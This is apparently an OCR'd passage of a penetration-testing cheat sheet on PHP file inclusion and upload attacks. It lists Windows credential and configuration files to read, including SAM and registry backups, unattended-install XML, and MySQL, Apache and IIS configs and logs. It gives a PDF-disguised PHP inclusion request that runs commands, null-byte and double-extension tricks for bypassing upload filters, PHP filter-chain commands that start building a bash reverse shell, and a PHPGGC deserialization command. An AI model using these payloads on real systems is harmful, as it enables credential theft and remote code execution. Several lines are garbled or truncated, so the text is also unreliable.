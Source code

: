 C:/Program Files/FileZilla Server/FileZilla Server.xml C:/Program Files/MySQL/data/hostname.err C:/Program Files/MySQL/data/mysql-bin.log C:/Program Files/MySQL/data/mysql.err C:/Program Files/MySQL/data/mysql.log C:/Program Files/MySQL/my.ini C:/Program Files/MySQL/my.cnf C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log C:/Program Files/MySQL/MySQL Server 5.0/my.cnf C:/Program Files/MySQL/MySQL Server 5.0/my.ini C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf C:/Program Files (x86)/Apache Group/Apache/conf/access.log C:/Program Files (x86)/Apache Group/Apache/conf/error.log C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml C:/Program Files (x86)/xampp/apache/conf/httpd.conf C:/WINDOWS/php.ini C:/WINDOWS/Repair/SAM C:/Windows/repair/system C:/Windows/repair/software C:/Windows/repair/security C:/WINDOWS/System32/drivers/etc/hosts C:/Windows/win.ini C:/WINNT/php.ini C:/WINNT/win.ini C:/xampp/apache/bin/php.ini C:/xampp/apache/logs/access.log C:/xampp/apache/logs/error.log C:/Windows/Panther/Unattend/Unattended.xml C:/Windows/Panther/Unattended.xml C:/Windows/debug/NetSetup.log C:/Windows/system32/config/AppEvent.Evt C:/Windows/system32/config/SecEvent.Evt C:/Windows/system32/config/default.sav C:/Windows/system32/config/security.sav C:/Windows/system32/config/software.sav C:/Windows/system32/config/system.sav C:/Windows/system32/config/regback/default C:/Windows/system32/config/regback/sam C:/Windows/system32/config/regback/security C:/Windows/system32/config/regback/system C:/Windows/system32/config/regback/software C:/Program Files/MySQL/MySQL Server 5.1/my.ini C:/Windows/System32/inetsrv/config/schema/ASPNET\_schema.xml C:/Windows/System32/inetsrv/config/applicationHost.config

C:/inetpub/logs/LogFiles/W3SVC1/u\_ex\[YYMMDD].log

PDF PHP Inclusion

Create a file with a PDF header, which contains PHP code.

%PDF-1.4

http\:///index.php?page=uploads/.pdf%00\&cmd=whoami

PHP Upload Filter Bypasses

.sh .cgi .inc .txt .pht .phtml .phP .Php .php3 .php4 .php5 .php7 .pht .phps .phar .phpt .pgif .phtml .phtm .php%00.jpeg

.php%20 .php%0d%0a.jpg .php%0a .php.jpg

.php%00.gif .php\x00.gif .php%00.png .php\x00.png .php%00.jpg .php\x00.jpg mv .jpg .php\x00.jpg

PHP Filter Chain Generator

<https://tinyurl.com/yv3gjun7>

python3 php\_filter\_chain\_generator.py --chain '' python3 php\_filter\_chain\_generator.py --chain "" python3 php\_filter\_chain\_generator.py --chain """""" python3 php\_filter\_chain\_generator.py --chain """"\<?php exec(""/bin/bash -c 'bash - python3 php\_filter\_chain\_generator.py --chain """"\<?php exec(""/bin/bash -c 'bash -

http\:///?page=php\://filter/convert.base64-decode/resource=PD9waHAgZWNobyBzaG

python3 php\_filter\_chain\_generator.py --chain '' \[+] The following gadget chain will generate the following code : \<?= exec($\_GET\[0] php\://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|<--- SNIP --->|co

PHP Generic Gadget Chains (PHPGGC)

phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/.txt /PATH/TO/FILE/.txt
